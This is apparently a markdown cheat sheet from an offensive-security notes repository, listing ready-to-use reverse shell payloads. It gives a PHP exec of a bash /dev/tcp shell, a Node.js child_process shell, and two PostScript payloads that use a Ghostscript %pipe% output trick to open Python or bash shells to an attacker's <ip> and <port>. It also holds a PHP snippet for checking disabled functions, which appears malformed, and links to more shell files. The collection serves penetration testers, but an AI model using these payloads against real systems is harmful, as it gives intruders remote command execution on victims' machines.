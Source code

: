 # Reverse shells
## PHP Reverse Shell
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
```
- [PHP Reverse Shell](Rev-shell/php_rev_shell.php)
- [Powny Reverse Shell](Rev-shell/powny-shell.php)

## Javascript Reverse Shell
```js
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(<port>, '<ip>');
```

## Postscript Reverse Shell
```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1') currentdevice putdeviceprops
```

## PHP RCE
```php
<?php var_dump(explode('.'.ini_get('disable_functions')));?>
```
   
## This is where you can get more reverse shell
***https://gtfobins.github.io***
